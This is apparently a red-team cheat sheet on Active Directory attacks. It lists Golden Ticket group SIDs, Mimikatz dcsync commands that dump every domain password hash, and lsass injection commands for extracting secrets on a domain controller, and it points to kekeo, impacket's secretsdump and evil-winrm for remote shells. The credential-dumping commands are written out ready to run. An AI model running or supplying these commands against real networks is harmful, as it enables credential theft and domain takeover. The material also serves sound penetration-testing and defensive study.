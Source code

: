 Golden Ticket Default Groups:

* Domain Users SID: S-1-5-21<DOMAINID>-513
* Domain Admins SID: S-1-5-21<DOMAINID>-512
* Schema Admins SID: S-1-5-21<DOMAINID>-518
* Enterprise Admins SID: S-1-5-21<DOMAINID>-519 (this is only effective when the forged ticket is created in the Forest root domain, though add using /sids parameter for AD forest admin rights)
* Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520
  
#### example 3: 
  
Mimikatz has a feature (dcsync) which utilises the Directory Replication Service (DRS) to retrieve the password hashes from the NTDS.DIT file. This technique eliminates the need to authenticate directly with the domain controller as it can be executed from any system that is part of the domain from the context of domain administrator. Therefore it is the standard technique for red teams as it is less noisy.
```
lsadump::dcsync /domain:pentestlab.local /all /csv
```
  
By specifying the domain username with the /user parameter Mimikatz can dump all the account information of this particular user including his password hash.
```
lsadump::dcsync /domain:pentestlab.local /user:test
```
  
Alternatively executing Mimikatz directly in the domain controller password hashes can be dumped via the lsass.exe process.
```
privilege::debug
```
```
lsadump::lsa /inject
```

### kekeo
similar to mimikatz
```
https://github.com/gentilkiwi/kekeo
```


### secretsdump-py
Remotely dump SAM and LSA secrets from a host.

```
https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
```

### evil-winrm
Provides us with an interactive shell on a host over the WinRM protocol.


```
https://github.com/Hackplayers/evil-winrm

```
